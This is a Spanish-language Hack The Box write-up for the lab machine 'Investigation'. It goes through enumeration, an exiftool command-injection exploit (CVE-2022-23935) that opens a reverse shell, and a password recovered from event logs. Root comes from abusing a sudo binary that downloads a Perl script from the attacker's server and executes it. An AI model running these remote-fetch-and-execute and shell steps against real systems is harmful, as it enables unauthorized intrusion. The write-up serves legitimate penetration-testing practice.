








+++
author = "Andrés Del Cerro"
title = "Hack The Box: Investigation Writeup | Medium"
date = "2024-08-13"
description = ""
tags = [
    "HackTheBox",
    "Investigation",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "Enumerating HTTP",
    "CVE-2022-23935",
    "Information Leakage",
    "Analyzing EML File",
    "Analyzing EVTX file",
    "Reversing Engineering",
    "Reverse ELF Binary",
    "Abusing custom binary",
    "Perl Scripting"
]

+++

# Hack The Box: Investigation Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Investigation"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
$ rustscan -a 10.129.228.203 --ulimit 5000 -g
10.129.228.203 -> [22,80]
```

```shell
$ nmap -p22,80 -sCV 10.129.228.203 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 23:07 CEST
Nmap scan report for 10.129.228.203
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f:1e:63:06:aa:6e:bb:cc:0d:19:d4:15:26:74:c6:d9 (RSA)
|   256 27:45:20:ad:d2:fa:a7:3a:83:73:d9:7c:79:ab:f3:0b (ECDSA)
|_  256 42:45:eb:91:6e:21:02:06:17:b2:74:8b:c5:83:4f:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://eforenzics.htb/
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.65 seconds
```

# UDP Enumeration
```shell
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.228.203 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 23:08 CEST
Nmap scan report for 10.129.228.203
Host is up (0.038s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
22381/udp closed unknown
23965/udp closed unknown
24910/udp closed unknown
26289/udp closed unknown
28645/udp closed unknown
31412/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds
```

Solo vemos el puerto 80/TCP como posible vector de ataque, en el anterior escaneo hemos detectado el dominio `eforenzics.htb` así que lo añadimos al `/etc/hosts`

# HTTP Enumeration

```shell
$ whatweb http://eforenzics.htb
http://eforenzics.htb [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.228.203], JQuery[3.4.1], Meta-Author[eForenzics], Script, Title[eForenzics - Premier Digital Forensics], UncommonHeaders[upgrade]
```

Por ahora parece que no existe ningún CMS por detrás.

El sitio web se ve así.


Podemos ver algunas valoraciones, nos vamos a apuntar estos usuarios por si acaso.


En el recurso `service.html` podemos ver un formulario de subida de archivo 


Se apunta al recurso `upload.php`


Nos pide que subamos una imagen `jpg`

> Upload an image file and we will provide a detailed forensic analysis.
> At this time we can only process jpg images.

Si subimos una imagen nos redirecciona a `http://eforenzics.htb/analysed_images/testjpg.txt`


Vemos que se está utilizando `exiftool`


# Foothold -> CVE-2022-23935
Podemos intentar inyectar un comando modificando el `filename` pero esto no funciona.


Buscando exploits encontramos algunos que nos llama la atención.


Recordemos que la versión era la `12.37`

Podemos utilizar [este PoC](https://github.com/cowsecurity/CVE-2022-23935)

Este PoC automáticamente se pone en escucha por el puerto 443 pero podemos generar el payload y luego ponernos nosotros en escucha con `pwncat-cs`
```shell
$ sudo python3 CVE-2022-23935.py 10.10.14.85 443
```

Subimos el archivo que genera.


¡Y ganamos acceso!


Ahora nos salimos de esa shell, nos ponemos en escucha con `pwncat-cs` por el puerto 443 y subimos otra vez el archivo.



# User Pivoting

```shell
(remote) www-data@investigation:/var/www/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
```

Vemos que solo existe el usuario `smorton` a parte de `root`

Encontramos un archivo de este usuario un tanto extraño

```shell
(remote) www-data@investigation:/home$ find / -type f -user smorton 2>/dev/null
/usr/local/investigation/Windows Event Logs for Analysis.msg
```

```shell
(remote) www-data@investigation:/usr/local/investigation$ file Windows\ Event\ Logs\ for\ Analysis.msg 
Windows Event Logs for Analysis.msg: CDFV2 Microsoft Outlook Message
```

Un archivo con la extensión `.msg` es un archivo de mensaje utilizado principalmente por Microsoft Outlook y otras aplicaciones de correo electrónico que son compatibles con el formato de Microsoft Outlook.

Es decir, viendo su peso (1,3M) contiene mensajes de correo, quizás alguno sea interesante.

Este es un archivo en formato MS-Outlook pero podemos convertirlo en un archivo .eml.

```shell
sudo apt-get install libemail-outlook-message-perl libemail-sender-perl
```

Convertimos el archivo...
```shell
$ msgconvert msg.msg 
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/investigation/content]
└──╼ [★]$ ls
msg.eml  msg.msg  test.jpg
```

Podemos analizar el archivo eml con [encryptomatic](https://www.encryptomatic.com/viewer/) y vemos un mensaje sobre que se debe analizar unos logs.


El archivo zip contiene un archivo `security.evtx`


Este archivo `.evtx` es un archivo de registro de eventos de Windows para almacenar eventos de registro del sistema y aplicaciones.

Podemos leer este archivo con https://github.com/omerbenamram/evtx

Nos descargamos la herramienta de [aquí](https://github.com/omerbenamram/evtx/releases/download/v0.8.3/evtx_dump-v0.8.3-x86_64-unknown-linux-gnu)

Y guiándonos con este artículo
https://medium.com/@salim.y.salimov/a-hassle-free-evtx-to-json-converter-not-only-for-windows-but-linux-and-mac-os-too-82adc4d9d158


Ahora podemos convertir el archivo evtx a un formato json
```shell
$ ./evtx -o json -f security.json security.evtx
```

Y ya podemos analizarlo tranquilamente...
```shell
$ cat security.json | head -n 10
Record 1
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "System": {
      "Provider": {
        "#attributes": {
          "Name": "Microsoft-Windows-Eventlog",
...
```

Consultando la [biblia del hacking (HackTricks)](https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/windows-forensics)

Encontramos el formato de este log y encontramos lo que significa los identificadores de los IDs


Realmente los logs mas importantes relacionados con la autenticación de los usuarios son los que he marcado.

Si revisamos el evento `4624` no encontramos nada pero si revisamos el evento `4625`...
```shell
$ cat security.json | grep ": 4625" -C 20
      "PackageName": "MICROSOFT_AUTHENTICATION_PACKAGE_V1_0",
      "TargetUserName": "lmonroe",
      "Workstation": "EFORENZICS-DI",
      "Status": "0xc000006a"
    }
  }
}
Record 7985
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "System": {
      "Provider": {
        "#attributes": {
          "Name": "Microsoft-Windows-Security-Auditing",
          "Guid": "54849625-5478-4994-A5BA-3E3B0328C30D"
        }
      },
      "EventID": 4625,
      "Version": 0,
      "Level": 0,
      "Task": 12544,
      "Opcode": 0,
      "Keywords": "0x8010000000000000",
      "TimeCreated": {
        "#attributes": {
          "SystemTime": "2022-08-01T16:34:51.543729Z"
        }
      },
      "EventRecordID": 11371170,
      "Correlation": {
        "#attributes": {
          "ActivityID": "6A946884-A5BC-0001-D968-946ABCA5D801"
        }
      },
      "Execution": {
        "#attributes": {
          "ProcessID": 628,
          "ThreadID": 5128
--
      "PackageName": "MICROSOFT_AUTHENTICATION_PACKAGE_V1_0",
      "TargetUserName": "hmraley",
      "Workstation": "EFORENZICS-DI",
      "Status": "0xc0000064"
    }
  }
}
Record 8418
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "System": {
      "Provider": {
        "#attributes": {
          "Name": "Microsoft-Windows-Security-Auditing",
          "Guid": "54849625-5478-4994-A5BA-3E3B0328C30D"
        }
      },
      "EventID": 4625,
      "Version": 0,
      "Level": 0,
      "Task": 12544,
      "Opcode": 0,
      "Keywords": "0x8010000000000000",
      "TimeCreated": {
        "#attributes": {
          "SystemTime": "2022-08-01T16:50:07.137703Z"
        }
      },
      "EventRecordID": 11371603,
      "Correlation": {
        "#attributes": {
          "ActivityID": "6A946884-A5BC-0001-D968-946ABCA5D801"
        }
      },
      "Execution": {
        "#attributes": {
          "ProcessID": 628,
          "ThreadID": 604
--
      "PackageName": "MICROSOFT_AUTHENTICATION_PACKAGE_V1_0",
      "TargetUserName": "Def@ultf0r3nz!csPa$$",
      "Workstation": "EFORENZICS-DI",
      "Status": "0xc0000064"
    }
  }
}
Record 10146
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "System": {
      "Provider": {
        "#attributes": {
          "Name": "Microsoft-Windows-Security-Auditing",
          "Guid": "54849625-5478-4994-A5BA-3E3B0328C30D"
        }
      },
      "EventID": 4625,
      "Version": 0,
      "Level": 0,
      "Task": 12544,
      "Opcode": 0,
      "Keywords": "0x8010000000000000",
      "TimeCreated": {
        "#attributes": {
          "SystemTime": "2022-08-01T19:15:15.374769Z"
        }
      },
      "EventRecordID": 11373331,
      "Correlation": {
        "#attributes": {
          "ActivityID": "6A946884-A5BC-0001-D968-946ABCA5D801"
        }
      },
      "Execution": {
        "#attributes": {
          "ProcessID": 628,
          "ThreadID": 6800

```

Y detectamos algo extraño, alguien ha intentado iniciar sesión como el usuario `Def@ultf0r3nz!csPa$$`

`"TargetUserName": "Def@ultf0r3nz!csPa$$"`

Tiene toda la pinta de contraseña, y probando como el usuario `smorton`...

```shell
$ ssh smorton@10.129.228.203
smorton@10.129.228.203's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-137-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 13 Aug 2024 08:15:41 PM UTC

  System load:  0.0               Processes:             231
  Usage of /:   59.4% of 3.97GB   Users logged in:       0
  Memory usage: 13%               IPv4 address for eth0: 10.129.228.203
  Swap usage:   0%


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

smorton@investigation:~$ id
uid=1000(smorton) gid=1000(smorton) groups=1000(smorton)
```

Y podemos leer la flag de usuario
```shell
smorton@investigation:~$ cat user.txt 
023b407268bf8bc00...
```

# Privilege Escalation
Como `smorton` detectamos que podemos ejecutar un binario como el usuario `root`

```shell
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

Si lo ejecutamos..
```shell
smorton@investigation:/usr/bin$ sudo binary
Exiting... 
```

## Reversing with GHidra
Decompilando el binario con `ghidra`

```C
undefined8 main(int param_1,long param_2)

{
  __uid_t _Var1;
  int iVar2;
  FILE *__stream;
  undefined8 uVar3;
  char *__s;
  char *__s_00;
  
  if (param_1 != 3) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  _Var1 = getuid();
  if (_Var1 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn");
  if (iVar2 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Running... ");
  __stream = fopen(*(char **)(param_2 + 0x10),"wb");
  uVar3 = curl_easy_init();
  curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
  curl_easy_setopt(uVar3,0x2711,__stream);
  curl_easy_setopt(uVar3,0x2d,1);
  iVar2 = curl_easy_perform(uVar3);
  if (iVar2 == 0) {
    iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
    __s = (char *)malloc((long)iVar2 + 1);
    snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
    iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
    __s_00 = (char *)malloc((long)iVar2 + 1);
    snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
    fclose(__stream);
    curl_easy_cleanup(uVar3);
    setuid(0);
    system(__s_00);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }
  puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

```C
if (param_1 != 3) { puts("Exiting... "); exit(0); }
```

El programa verifica si el primer argumento (`param_1`) es igual a 3. Si no es 3, imprime "Exiting..." y termina la ejecución.


```C
_Var1 = getuid(); if (_Var1 != 0) { puts("Exiting... "); exit(0); }
```
Obtiene el identificador de usuario (UID) actual usando `getuid()`. Si el UID no es 0 (que normalmente representa el usuario root), imprime "Exiting..." y termina la ejecución.

```C
iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn"); if (iVar2 != 0) { puts("Exiting... "); exit(0); }
```
Compara un valor obtenido de `param_2` con la cadena `"lDnxUysaQn"`. Si no coinciden, imprime "Exiting..." y termina la ejecución.

Sabiendo esto...
```shell
smorton@investigation:/usr/bin$ sudo binary 3 lDnxUysaQn
Running... 
^C
```


Luego realiza una descarga de un binario que **realiza una petición de descarga al primer parámetro**.
```C
__stream = fopen(*(char **)(param_2 + 0x10),"wb"); uVar3 = curl_easy_init(); curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8)); curl_easy_setopt(uVar3,0x2711,__stream); curl_easy_setopt(uVar3,0x2d,1); iVar2 = curl_easy_perform(uVar3);
```

- Abre un archivo para escritura binaria con el nombre obtenido de `param_2`.
- Inicializa una sesión de `libcurl` y configura las opciones:
    - URL desde la que descargar (`curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8))`).
    - Archivo para guardar la descarga (`curl_easy_setopt(uVar3,0x2711,__stream)`).
    - Opciones adicionales (`curl_easy_setopt(uVar3,0x2d,1)`).
- Realiza la descarga (`curl_easy_perform(uVar3)`).

```C
if (iVar2 == 0) { iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10)); __s = (char *)malloc((long)iVar2 + 1); snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10)); iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s); __s_00 = (char *)malloc((long)iVar2 + 1); snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s); fclose(__stream); curl_easy_cleanup(uVar3); setuid(0); system(__s_00); system("rm -f ./lDnxUysaQn"); return 0; }
```

Si la descarga es exitosa (`iVar2 == 0`):

- Crea una cadena que contiene el nombre del archivo descargado.
- Construye un comando para ejecutar el archivo descargado usando Perl (`perl ./filename`).
- Limpia recursos y restablece el UID al valor de root (`setuid(0)`).
- Ejecuta el comando con `system()` para ejecutar el archivo descargado.
- Borra el archivo descargado con `system("rm -f ./lDnxUysaQn")`.

Vemos que efectivamente, descarga un binario con el nombre `lDnxUysaQn` aunque esta no es exitosa.


`-rw-r--r--  1 root     root           0 Aug 13 20:25 lDnxUysaQn` este archivo es de `root` y en principio debería de ser un script en perl que luego se ejecutará.

## Exploiting our knowledge
Vamos a ver si como hemos visto en el código si estableciendo el primer parámetro mi IP me llega una petición de descarga.

```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

```shell
$ sudo binary http://10.10.14.85:8081/pointedsec lDnxUysaQn
Running... 
Exiting...
```

¡Perfecto!
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.228.203 - - [14/Aug/2024 00:31:55] code 404, message File not found
10.129.228.203 - - [14/Aug/2024 00:31:55] "GET /pointedsec HTTP/1.1" 404 -
```

Ahora simplemente serviremos un script en `perl` que se ejecutará en el sistema.

`privesc.`
```perl
#!/usr/bin/perl
use strict;
use warnings;

exec("bash -p");
```

Lo servimos por el puerto 8081 y al ejecutar el binario estableciendo este archivo como segundo parámetro..
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.228.203 - - [14/Aug/2024 00:32:56] "GET /privesc.pl HTTP/1.1" 200 -
```

Nos convertimos en `root`
```shell
smorton@investigation:/tmp$ sudo binary http://10.10.14.85:8081/privesc.pl lDnxUysaQn
Running... 
root@investigation:/tmp# id
uid=0(root) gid=0(root) groups=0(root
```

Y ya podríamos leer la flag de `root`
```shell
root@investigation:/tmp# cat /root/root.txt
13310bc79b0a86a...
```

¡Y ya estaría!


Happy Hacking! 🚀